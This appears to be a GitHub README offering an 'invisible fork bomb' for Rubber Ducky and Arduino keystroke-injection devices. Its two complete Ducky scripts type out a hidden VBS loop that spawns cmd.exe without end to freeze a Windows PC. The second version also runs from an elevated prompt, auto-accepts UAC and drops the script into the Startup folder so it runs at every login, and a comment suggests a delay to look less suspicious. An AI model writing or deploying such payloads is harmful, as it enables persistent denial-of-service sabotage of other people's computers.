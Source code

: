 # Invisible Fork Bomb for Arduino and Ducky
**V. 2.0:** The script creates and starts a vbs that executes exponentially cmd.exe without visible windows (Fork bomb -> Freezes the PC).

**V. 3.0:** The same, but it adds the vbs to the startup folder.

**Author:** BlueArduino20

# Code for Ducky (2.0)

<pre><code>DELAY 1000
REM ^ You should set more delay time if your computer is slow or if the script doesn't work correctly.
GUI r
DELAY 500
STRING cmd
ENTER
DELAY 500
STRING copy con forkb.vbs
ENTER
STRING do
ENTER
STRING CreateObject("Wscript.Shell").Run "cmd", 0, False
ENTER
STRING loop
CTRL z
ENTER
DELAY 50
STRING start forkb.vbs && exit
REM You can add this: ">null ping localhost -n 5 && " before "start" to make a (5 sec) delay before the vbs execution. (By this way it's less suspicious)
ENTER
</pre></code>

# Code for Ducky (V. 3.0) (It adds the file to the startup)

This code adds the .vbs file to the startup:

<pre><code>DELAY 1000
REM ^ You should set more delay time if your computer is slow or if the script doesn't work correctly.
CTRL ESC
DELAY 500
STRING cmd
CTRL SHIFT ENTER
DELAY 400
ALT y
REM ^ UAC Bypass
DELAY 500
STRING copy con "%userprofile%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\FB.vbs"
REM ^ Setup the .vbs on startup folder
ENTER
STRING do
ENTER
STRING CreateObject("Wscript.Shell").Run "cmd", 0, False
ENTER
STRING loop
CTRL z
ENTER
DELAY 50
STRING start FB.vbs && exit
ENTER
</pre></code>

# Code for Arduino

<a href="https://github.com/BlueArduino20/Invisible_fork_bomb/blob/master/Invisible_fork_bomb_2.0.ino">Invisible_fork_bomb_2.0.ino<a>

# Code for Arduino (V. 3.0) (It adds the file to the startup)

<a href="https://github.com/BlueArduino20/Invisible_fork_bomb/blob/master/Invisible_fork_bomb_3.0.ino">Invisible_fork_bomb_3.0.ino<a>

